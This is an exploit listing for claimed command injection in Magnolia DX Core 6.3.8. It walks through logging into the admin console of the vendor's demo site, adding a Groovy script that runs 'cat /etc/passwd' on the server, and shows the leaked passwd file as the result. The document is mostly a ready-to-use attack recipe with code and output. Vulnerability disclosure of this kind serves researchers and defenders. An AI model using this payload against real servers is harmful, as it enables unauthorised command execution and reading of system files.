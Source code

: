 # Exploit Title: Magnolia DX Core 6.3.8 - Command Injection  
# Date: 05/16/2025  
# Exploit Author: tmrswrr  
# Version: 6.3.8  
# Vendor home page: https://docs.magnolia-cms.com/home/  
# Product: https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/  
# Demo: https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/  

1) Authenticate as an admin:  
   `https://demoauthor.magnolia-cms.com/.magnolia/admincentral`  
2) Navigate to **Development > Groovy > Add Script**  
3) Inject Groovy Script:

   ```groovy
   def process = "cat /etc/passwd".execute()
   def output = new StringBuffer()
   process.consumeProcessOutput(output, System.err)
   process.waitFor()

   println ${output}```
Result : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash```
